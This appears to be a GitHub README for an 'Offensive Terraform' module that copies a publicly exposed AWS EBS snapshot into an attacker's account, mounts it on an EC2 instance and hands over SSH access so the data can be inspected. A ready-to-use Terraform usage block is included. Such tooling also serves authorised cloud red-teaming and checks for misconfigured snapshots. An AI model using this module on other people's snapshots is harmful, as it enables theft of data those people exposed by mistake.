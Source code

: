 # AWS EBS Snapshot Publicly Exposed

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which copies publicly exposed EBS snapshot to us-east-1 region in attacker's AWS account and creates EBS volume from the copied EBS snapshot. After that, the module attaches and mounts the EBS volume to an EC2 instance. Finally, attacker can ssh into an EC2 instance and inspect a mounted volume "/usr/src/hack".

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/ebs-snapshot-publicly-exposed/master/diagram.jpg)

## Usage
```
module "ebs-snapshot-publicly-exposed" {
    source  = "offensive-terraform/ebs-snapshot-publicly-exposed/aws"

    public_snapshot_id = "snap-000000000000"
}

output "ssh_private_key" {
  value = module.ebs-snapshot-publicly-exposed.ssh_private_key
}

output "ssh_ec2_connect" {
  value = module.ebs-snapshot-publicly-exposed.ssh_ec2_connect
}
```

## Author
Module managed by https://github.com/iganbold
